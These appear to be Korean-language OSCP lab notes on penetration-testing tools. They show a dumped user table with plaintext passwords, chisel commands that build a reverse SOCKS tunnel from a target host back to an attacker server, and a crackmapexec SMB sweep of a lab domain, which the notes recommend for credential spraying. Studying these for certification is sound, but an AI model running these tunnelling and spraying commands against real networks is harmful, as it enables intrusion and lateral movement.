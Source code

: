 기본적으로 oscp에서는 사용 금지.

```
Database: mihari_db
Table: users
[2 entries]
+----+--------------+----------+
| id | password     | username |
+----+--------------+----------+
| 1  | madscientist | okabe    |
| 2  | SuperHacker  | daru     |
+----+--------------+----------+
```

# chisel

http 프로토콜을 사용하여 프록시를 연결한다.

서버와 클라이언트의 버전이 같아야 한다.

## 서버 (공격자)

```
sudo ./chisel_1.10.1_linux_amd64 server --reverse --port 7777
```

## 클라이언트 (타겟)

```
.\chisel.exe client -v 10.8.0.101:7777 R:socks

2025/02/05 12:06:21 client: Connecting to ws://10.8.0.101:7777
2025/02/05 12:06:21 client: Handshaking...
2025/02/05 12:06:21 client: Sending config
2025/02/05 12:06:21 client: Connected (Latency 27.6269ms)
2025/02/05 12:06:21 client: tun: SSH connected
```

# crackmapexec

크레덴셜 스프레이 공격에 매우 유용하다.

```
crackmapexec smb 172.16.157.0/24
SMB         172.16.157.13   445    PROD01           [*] Windows 10.0 Build 20348 x64 (name:PROD01) (domain:medtech.com) (signing:False) (SMBv1:False)
SMB         172.16.157.12   445    DEV04            [*] Windows 10.0 Build 20348 x64 (name:DEV04) (domain:medtech.com) (signing:False) (SMBv1:False)
SMB         172.16.157.11   445    FILES02          [*] Windows 10.0 Build 20348 x64 (name:FILES02) (domain:medtech.com) (signing:False) (SMBv1:False)
SMB         172.16.157.10   445    DC01             [*] Windows 10.0 Build 20348 x64 (name:DC01) (domain:medtech.com) (signing:True) (SMBv1:False)
SMB         172.16.157.82   445    CLIENT01         [*] Windows 10.0 Build 22000 x64 (name:CLIENT01) (domain:medtech.com) (signing:False) (SMBv1:False)
SMB         172.16.157.83   445    CLIENT02         [*] Windows 10.0 Build 22000 x64 (name:CLIENT02) (domain:medtech.com) (signing:False) (SMBv1:False)
SMB         172.16.157.254  445    WEB02            [*] Windows 10.0 Build 20348 x64 (name:WEB02) (domain:medtech.com) (signing:False) (SMBv1:False)
```

